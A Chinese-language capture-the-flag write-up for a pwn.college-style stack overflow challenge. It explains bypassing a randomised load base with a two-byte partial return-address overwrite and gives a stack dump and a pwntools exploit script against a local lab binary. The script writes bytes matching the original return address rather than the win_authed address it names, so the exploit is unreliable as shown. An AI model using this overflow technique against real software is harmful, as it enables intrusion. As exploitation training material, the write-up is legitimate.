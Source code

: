 

## level 7

这一关，程序的加载基址是随机的，无法通过固定的地址跳转。但是页的大小是`0x1000`，这意味着最后三个十六进制的地址是固定的，可以通过覆盖返回地址的最后两个字节来实现跳转，至于第4个二进制数，只能靠多次运行猜测了。

这里要说一下，这个recv最多是一次性接受`nums`个字节，有一个上限，如果你不确定回显是否在这个范围内的话，最好还是用recvall，这个可以获取到所有的输出，直到`EOF`，但是它接受完之后，就会关闭`tube`。

```asm
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffc02d5d290 (rsp+0x0000) | a0 d2 d5 02 fc 7f 00 00 | 0x00007ffc02d5d2a0 |
| 0x00007ffc02d5d298 (rsp+0x0008) | 88 e4 d5 02 fc 7f 00 00 | 0x00007ffc02d5e488 |
| 0x00007ffc02d5d2a0 (rsp+0x0010) | 78 e4 d5 02 fc 7f 00 00 | 0x00007ffc02d5e478 |
| 0x00007ffc02d5d2a8 (rsp+0x0018) | 00 3a ab 52 01 00 00 00 | 0x0000000152ab3a00 |
| 0x00007ffc02d5d2b0 (rsp+0x0020) | 01 00 00 00 00 00 00 00 | 0x0000000000000001 |
| 0x00007ffc02d5d2b8 (rsp+0x0028) | 9a 00 00 00 00 00 00 00 | 0x000000000000009a |
| 0x00007ffc02d5d2c0 (rsp+0x0030) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d2c8 (rsp+0x0038) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d2d0 (rsp+0x0040) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d2d8 (rsp+0x0048) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d2e0 (rsp+0x0050) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d2e8 (rsp+0x0058) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d2f0 (rsp+0x0060) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d2f8 (rsp+0x0068) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d300 (rsp+0x0070) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d308 (rsp+0x0078) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d310 (rsp+0x0080) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d318 (rsp+0x0088) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d320 (rsp+0x0090) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d328 (rsp+0x0098) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d330 (rsp+0x00a0) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d338 (rsp+0x00a8) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d340 (rsp+0x00b0) | 41 41 41 41 9a 00 00 00 | 0x0000009a41414141 |
| 0x00007ffc02d5d348 (rsp+0x00b8) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d350 (rsp+0x00c0) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffc02d5d358 (rsp+0x00c8) | 99 3e e5 1f 75 55 00 00 | 0x000055751fe53e99 |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x4141414141414141
- the saved frame pointer (of main) is at 0x7ffc02d5d350
- the saved return address (previously to main) is at 0x7ffc02d5d358
- the saved return address is now pointing to 0x55751fe53e99.
- the address of win_authed() is 0x55751fe53e71.   <---- 这个3e71的3是会变化的

```

```python
from pwn import *



elf = ELF("/challenge/babymem_level7.0") 

p = process("/challenge/babymem_level7.0")
p.sendline("154")

buffer_size = 152
payload = buffer_size * b'A' + b'\x99\x3E'
p.sendline(payload)
output = p.recv().decode("utf-8")
p.interactive()

```